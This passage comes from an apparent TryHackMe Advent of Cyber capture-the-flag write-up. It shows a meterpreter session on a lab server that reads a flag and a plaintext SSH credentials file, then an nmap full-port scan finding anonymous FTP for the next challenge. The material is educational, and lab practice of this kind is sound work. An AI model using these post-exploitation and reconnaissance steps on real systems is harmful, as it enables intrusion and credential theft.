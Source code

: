 ```
meterpreter > cat /usr/local/tomcat/webapps/ROOT/ThisIsFlag1.txt
THM{3ad96bb13ec963a5ca4cb99302b37e12}
```

`THM{3ad96bb13ec963a5ca4cb99302b37e12}`

2. Now you've compromised the web server, get onto the main system. What is Santa's SSH password?

```
meterpreter > shell
Process 51 created.
Channel 1 created.
ls /home/
santa
ls /home/santa
ssh-creds.txt
cat /home/santa/ssh-creds.txt
santa:rudolphrednosedreindeer
```

`rudolphrednosedreindeer`

3. Who is on line 148 of the naughty list?

```
[santa@ip-10-10-73-143 ~]$ sed '148!d' naughty_list.txt 
Melisa Vanhoose
```

`Melisa Vanhoose`

4. Who is on line 52 of the nice list?

```
[santa@ip-10-10-73-143 ~]$ sed '52!d' nice_list.txt 
Lindsey Gaffney
```

`Lindsey Gaffney`

## [Day 11] Elf Applications

McSkidy has been happy with the progress they've been making, but there's still so much to do. One of their main servers has some integral services running, but they can't access these services. Did the Christmas Monster lock them out? 

Deploy the machine and starting scanning the IP. **The machine may take a few minutes to boot up**. 

Check out the supporting material [here](https://docs.google.com/document/d/1qCMuPwBR0gWIDfk_PXt0Jr220JIJAQ-N4foDZDVX59U/edit#).

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ sudo nmap -A -p- 10.10.89.226
[sudo] password for kali: 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-02 11:20 CEST
Nmap scan report for 10.10.89.226
Host is up (0.030s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE  VERSION
21/tcp    open  ftp      vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 500 OOPS: invalid pasv_address
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.8.106.222
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
```